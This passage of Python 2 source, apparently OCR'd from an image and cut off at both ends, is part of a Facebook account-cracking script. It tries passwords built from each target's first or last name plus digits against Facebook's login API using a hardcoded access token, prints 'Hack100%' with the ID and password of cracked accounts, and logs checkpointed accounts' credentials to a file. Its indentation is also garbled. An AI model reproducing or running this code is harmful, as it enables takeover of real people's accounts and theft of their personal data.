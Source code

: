 				                                                           oks.append(user+pass6)
                                                                                   else:
			                                                                   if 'www.facebook.com' in q["error_msg"]:
				                                                               print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                                                               print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                                                               print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                                                               print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass6 + '\n'
				                                                               cek = open("out/super_cp.txt", "a")
				                                                               cek.write("ID:" +user+ " Pw:" +pass6+"\n")
				                                                               cek.close()
				                                                               cekpoint.append(user+pass6)	
						                                           else:							
								                               pass7 = b['first_name']+'12345'						
								                               data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")						
								                               q = json.load(data)						
								                               if 'access_token' in q:		
				                                                                       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                       z = json.loads(x.text)
									                               print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'					
									                               print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']					
									                               print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user				
									                               print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass7 + '\n'					
									                               oks.append(user+pass7)
                                                                                               else:
			                                                                               if 'www.facebook.com' in q["error_msg"]:
				                                                                           print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                                                                           print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                                                                           print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                                                                           print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass7 + '\n'
				                                                                           cek = open("out/super_cp.txt", "a")
				                                                                           cek.write("ID:" +user+ " Pw:" +pass7+"\n")
				                                                                           cek.close()
				                                                                           cekpoint.append(user+pass7)           					
								                                       else:						
										                           pass8 = b['last_name'] + '786'											
			                                                                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                                                                   q = json.load(data)												
			                                                                                   if 'access_token' in q:		
										                                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                                   z = json.loads(x.text)
				                                                                                   print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'											
				                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']											
				                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user										
				                                                                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass8 + '\n'											
				                                                                                   oks.append(user+pass8)
                                                                                                           else:
			                                                                                           if 'www.facebook.com' in q["error_msg"]: